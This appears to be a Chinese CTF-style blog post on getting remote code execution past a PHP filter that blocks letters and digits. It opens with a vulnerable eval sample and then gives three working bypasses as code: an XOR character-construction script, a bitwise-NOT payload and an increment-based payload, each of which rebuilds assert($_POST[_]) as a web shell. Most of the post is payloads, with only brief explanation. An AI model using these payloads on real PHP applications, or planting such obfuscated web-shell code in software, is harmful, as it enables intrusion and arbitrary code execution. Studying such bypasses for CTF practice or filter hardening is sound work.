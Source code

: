```yaml
---
layout: post
title: 无字母数字rce
categories: [web,rce]
---
```

## 概述

例如

```php
<?php
highlight_file(__FILE__);
$code = $_GET['code'];
if(preg_match("/[A-Za-z0-9]+/",$code)){
    die("hacker!");
}
@eval($code);
?>

```

## 1.异或

两个字符进行异或时，会先将字符串转换成ascii码值，再将这个值转换成二进制，然后一位一位的进行按位异或，异或的规则是：1^1=0,1^0=1,0^1=1,0^0=0，简单的来说就是相同为0，不同为1

脚本：

```python
valid = "1234567890!@$%^*(){}[];\'\",.<>/?-=_`~ "
answer = str(input("请输入进行异或构造的字符串："))
tmp1, tmp2 = '', ''
for c in answer:
  for i in valid:
    for j in valid:
      if (ord(i) ^ ord(j) == ord(c)):
        tmp1 += i
        tmp2 += j
        break
    else:
      continue
    break
print(f"\"{tmp1}\"^\"{tmp2}\"")
```

## 2.取反

想要构造的`assert($_POST[_])`这条语句，先用取反符号`~`将字符串`assert`和`_POST`取反，这里需要注意的是，由于它取反之后会有大量不可显字符，所以我们同样需要将其url编码，然后当我们要用的时候，再利用取反符号把它们取回来即可

```php
<?php 
$a=urlencode(~'assert');
echo $a;
echo '666';
$b=urlencode(~'eval($_POST[1]);');
echo $b;
//(~%9E%8C%8C%9A%8D%8B)(~%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%CE%A2%D6%C4);
```

```php
$_=~(%9E%8C%8C%9A%8D%8B);    //这里利用取反符号把它取回来，$_=assert
$__=~(%A0%AF%B0%AC%AB);      //$__=_POST
$___=$$__;                   //$___=$_POST
$_($___[_]);                 //assert($_POST[_]);
放到一排就是：
$_=~(%9E%8C%8C%9A%8D%8B);$__=~(%A0%AF%B0%AC%AB);$___=$$__;$_($___[_]);

```

<br/>

## 3.自增

> 这个方法就是我之前看不懂的比较抽象的方法

[点击跳转](https://www.llllll.love/2023/08/10/%E5%B0%8F%E8%AE%A1/)

```php
//测试发现7.0.12以上版本不可使用
//使用时需要url编码下
$_=[];$_=@"$_";$_=$_['!'=='@'];$___=$_;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$____='_';$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$_=$$____;$___($_[_]);
固定格式 构造出来的 assert($_POST[_]);
然后post传入   _=phpinfo();
```
